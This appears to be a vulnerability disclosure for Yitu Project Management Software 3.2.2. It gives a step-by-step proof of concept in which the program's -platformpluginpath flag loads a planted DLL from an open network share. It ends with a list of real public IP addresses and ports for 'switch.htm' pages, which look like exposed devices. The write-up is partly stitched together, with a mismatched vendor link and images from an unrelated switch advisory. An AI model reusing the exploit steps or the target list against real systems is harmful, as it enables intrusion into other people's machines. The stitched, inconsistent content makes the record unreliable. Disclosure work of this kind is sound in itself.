 # Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability

## Overview
Manufacturer's address：[(https://www.wondershare.cn/)]
## Vulnerability impact
Yitu Project Management Software 3.2.2
## Vulnerability location
-platformpluginpath  \\172.16.2.88\shared
## Vulnerability details
Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability.Attackers exploit the feature of directories being able to remotely share folders. When launching the qt program, they add the - platformpluginpath parameter to specify that the qt plugin loads the directory, thereby achieving the goal of remote code execution 
## Vulnerability verify
[(http://61.141.114.15:10034/index.htm)]
1.Create a shared folder on Windows, and add everyone to the shared folder security settings
<img width="415" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/tree/d3c98a39c7e71857b2e65c74878472388315d824/Remote%20Code%20Execution%20Vulnerability_01/assets/image.png">
2.Both sharing and advanced sharing require setting everyone full control permissions
![Alt text](image-1.png)
3.Shared password protection turned off
![Alt text](image-2.png)
![Alt text](image-3.png)
![Alt text](image-4.png)
4.Shared machine IP
![Alt text](image-5.png)
5.Verify that the machine opens the shared folder and confirms that there is an imageformats folder under the shared folder, and that there is an exp.dll verification file inside the imageformats folder.Be sure to open it through the resource manager \\The shared folder under 172.16.2.88 does not require account and password verification.
![Alt text](image-6.png)
6.Confirm the installation path for Wanxing Technology's Yitu project management
![Alt text](image-8.png)
7.The default installation path for verifying the machine is "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe".Please refer to the actual path for verifying the machine for details
8.Win+r ->cmd ->Execute the following command (the IP below is based on the actual verified IP of the machine that opened the shared folder, and the name of the shared folder can be modified according to the actual situation if there are no special requirements) "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe" - platformpluginpath \ \ 172.16.2.88\shared.Wait for the program to open and see the calc.exe process pop up
![Alt text](image-9.png)
9.Use the tool to view the launched Yitu project management process and load those DLLs. The ProcessHacker tool is used here
![Alt text](image-10.png)
10.You can see that the exp.dll has been loaded into the remote shared folder under imageformats, and verification has been successful

<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/3b5a0bd1-a3a1-409c-aafa-f1e44257bca8">
<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/cff04fd3-40d0-4b16-ae41-98225501c432">
<img width="416" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/5b0ab660-d01c-4c1d-b5a3-5018d30996ea">
## remaining assets
http://113.116.145.214:10034/switch.htm
http://180.107.158.225:88/switch.htm
http://119.123.77.93:1033/switch.htm
http://61.141.114.15:10034/switch.htm
http://112.242.125.67:2222/switch.htm
http://59.45.111.251:10000/switch.htm
http://61.181.77.26:8091/switch.htm
http://119.123.77.93:1033/switch.htm
http://218.8.101.251:8010/switch.htm
http://112.26.136.90:8890/switch.htm
http://60.165.53.178:8813/switch.htm
http://112.242.125.67:2222/switch.htm
http://60.165.53.178:8812/switch.htm
http://60.165.53.178:8814/switch.htm
